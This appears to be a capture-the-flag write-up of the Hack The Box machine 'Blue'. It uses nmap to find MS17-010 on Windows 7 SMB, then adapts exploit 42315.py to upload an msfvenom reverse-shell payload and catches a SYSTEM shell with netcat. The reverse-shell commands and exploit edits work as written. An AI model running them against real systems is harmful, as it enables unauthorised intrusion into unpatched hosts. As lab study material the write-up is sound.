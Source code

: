 ```yaml
---

layout: post
title: Blue
tags: [OSCP, Writeup, Windows, Shellcode, SMB]
description: "Blue write-up"
---
```


![Blue logo](/assets/imgs/blue/blue.png)

### This is an easy windows box

## Tools used

------

- msfvenom
- nc
- nmap
- python
- searchsploit

## Reconnaissance

------

### Nmap

```
nmap -sC -sV -oA blue 10.10.10.40 -v

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m23s, deviation: 34m37s, median: 6m34s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-07-18T08:55:19+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-07-18T07:55:17
|_  start_date: 2020-07-18T07:52:58
```

Here’s what nmap teaches us :

- port 139 (NETBIOS)
- port 445 (SMB)
- Windows 7 Professional 6.1

So we have a windows 7 with SMB ports open. Let's check with nmap if we have some known exploit with SMB.

```
nmap --script "smb-vuln*" -p 139,445 10.10.10.40 -v

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

Results :

- ms17-010 : RCE

Nice, we have a RCE, let's search for exploit code.

### Searchsploit

![Searchsploit ms17-010](/assets/imgs/blue/searchsploit_ms17-010.PNG)

There's a Metasploit module, but let's not use it. I have to do it manually !

## Exploit

------

I'm going to use this exploit "windows/remote/42315.py", download it, like so :

```bash
searchsploit -m windows/remote/42315.py
```

Reading the code we need to modify it a little bit.

- Change the username/password
- Change the shellcode, so that the code use mine

Generate the reverse shell with msfvenom :

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=1234 EXITFUNC=thread -f exe -a x86 --platform windows -o reverse_shell.exe
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse_shell.exe
```

As username I'll use "guest" and no password.

Now modify the python code :

```python
USERNAME = 'guest'
PASSWORD = ''

[...]

smb_send_file(smbConn, "/home/liodeus/Downloads/hackthebox/blue/shellcode.exe", 'C', '/shellcode.exe')
service_exec(conn, r'cmd /c c:\\shellcode.exe')
```

Before executing the exploit, open a nc listener.

```bash
nc -lvp 1234
```

Then launch the exploit.

```python
python 42315.py 10.10.10.40
```

Go to the nc listener and voila !

```python
nc -lvp 1234
listening on [any] 1234 ...
10.10.10.40: inverse host lookup failed: Unknown host
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

We are root ! Go read the flags now !

## Flags

------

### User.txt

```python
C:\>dir /b/s user.txt
dir /b/s user.txt
C:\Users\haris\Desktop\user.txt

C:\>type C:\Users\haris\Desktop\user.txt
type C:\Users\haris\Desktop\user.txt
4c546aea7dbee75cbd71de245c8deea9
```

### Root.txt

```python
C:\>dir /b/s root.txt
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt

C:\>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
ff548eb71e920ff6c08843ce9df4e717
```
